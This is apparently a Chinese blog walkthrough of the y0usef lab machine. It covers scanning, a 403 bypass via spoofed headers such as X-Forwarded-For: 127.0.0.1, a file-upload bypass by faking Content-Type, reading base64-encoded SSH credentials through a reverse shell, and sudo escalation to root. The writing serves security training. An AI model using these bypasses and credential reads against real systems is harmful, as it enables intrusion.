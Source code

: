 ```yaml
---
title: 打靶练习8-y0usef
tags: 打靶
categories: 红队技术
date: 2022-11-22 17:16:17
---
```





wahtweb指纹识别 | 403bypass | 文件上传绕过 | sudo提权



<!-- more -->









## 主机发现

### arp-scan

```
[root@kali ~]# sudo arp-scan -l

Interface: eth0, type: EN10MB, MAC: 00:0c:29:03:ac:71, IPv4: 172.16.42.147
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
172.16.42.1	00:50:56:c0:00:08	VMware, Inc.
172.16.42.2	00:50:56:fd:8b:c9	VMware, Inc.
172.16.42.208	08:00:27:ff:4d:67	PCS Systemtechnik GmbH
172.16.42.254	00:50:56:e2:0c:93	VMware, Inc.
```





### nmap 版本及脚本扫描

```
[root@kali ~]# nmap -p22,80 -sV -sC 172.16.42.208
Starting Nmap 7.91 ( https://nmap.org ) at 2022-11-20 20:37 EST
Nmap scan report for 172.16.42.208
Host is up (0.00060s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 d8:e0:99:8c:76:f1:86:a3:ce:09:c8:19:a4:1d:c7:e1 (DSA)
|   2048 82:b0:20:bc:04:ea:3f:c2:cf:73:c3:d4:fa:b5:4b:47 (RSA)
|   256 03:4d:b0:70:4d:cf:5a:4a:87:c3:a5:ee:84:cc:aa:cc (ECDSA)
|_  256 64:cd:d0:af:6e:0d:20:13:01:96:3b:8d:16:3a:d6:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Ubuntu))
|_http-server-header: Apache/2.4.10 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:FF:4D:67 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.92 seconds
```





## 边界突破

### whatweb指纹识别

```
[root@kali ~]# whatweb http://172.16.42.208/
http://172.16.42.208/ [200 OK] Apache[2.4.10], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.10 (Ubuntu)], IP[172.16.42.208], JQuery, PHP[5.5.9-1ubuntu4.29], Script, X-Powered-By[PHP/5.5.9-1ubuntu4.29]
```





### dirsearch目录扫描

```
apt install dirsearch
dirsearch -u http://172.16.42.208/
```

发现

```
[21:01:06] 301 -  322B  - /adminstration  ->  http://172.16.42.208/adminstration/
```

访问http://172.16.42.208/adminstration/ 

![](../images/pics/打靶/30.jpg)





### 403 bypass

常规三种403bypass方式：

- **主机名替换（旁站）**

  搜集abc.com域下其他主机名 `$xxx$.abc.com`

- **url覆盖**

  ```
  #Request
  GET /auth/login HTTP/1.1
  
  #Response
  HTTP/1.1 403 Forbidden
  ```

  替换

  ```
  #Request
  GET / HTTP/1.1
  X-Original-URL: /auth/login
  
  #Response
  HTTP/1.1 200 OK
  ```

  一些可用的

  ```
  X-Original-URL
  X-Rewrite-URL
  ```

- **ReFerer**

  ```
  #Request
  GET / HTTP/1.1
  ReFerer: https://xxx/auth/login
  ```

- **多层网络架构**

  ```
  GET / HTTP/1.1
  Host: 172.16.42.210
  X-Originating-IP: 127.0.0.1
  X-Remote-IP: 127.0.0.1
  X-Forwarded-For: 127.0.0.1
  ```

  



本次通过`X-Forwarded-For`绕过

![](../images/pics/打靶/31.jpg)



返回来一个登录页面用admin/admin进行登录。



### 文件上传绕过

通过修改content-type为图片绕过：`Content-Type: image/png`

![](../images/pics/打靶/32.jpg)



通过反弹的shell读取到

```
(www-data:/home) $ cat /home/user.txt
c3NoIDogCnVzZXIgOiB5b3VzZWYgCnBhc3MgOiB5b3VzZWYxMjM=
```



base64解码
```
ssh : 
user : yousef 
pass : yousef123
```



## sudo 提权

使用上述账号密码登录

```
yousef@yousef-VirtualBox:~$ sudo -l
[sudo] password for yousef:
Matching Defaults entries for yousef on yousef-VirtualBox:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User yousef may run the following commands on yousef-VirtualBox:
    (ALL : ALL) ALL
yousef@yousef-VirtualBox:~$ sudo su
root@yousef-VirtualBox:/home/yousef#
```



查看flag

```
root@yousef-VirtualBox:/home/yousef# cd /root
root@yousef-VirtualBox:~# ls
root.txt
root@yousef-VirtualBox:~# cat root.txt
WW91J3ZlIGdvdCB0aGUgcm9vdCBDb25ncmF0dWxhdGlvbnMgYW55IGZlZWRiYWNrIGNvbnRlbnQgbWUgdHdpdHRlciBAeTB1c2VmXzEx
```



解码

```
You've got the root Congratulations any feedback content me twitter @y0usef_11
```









































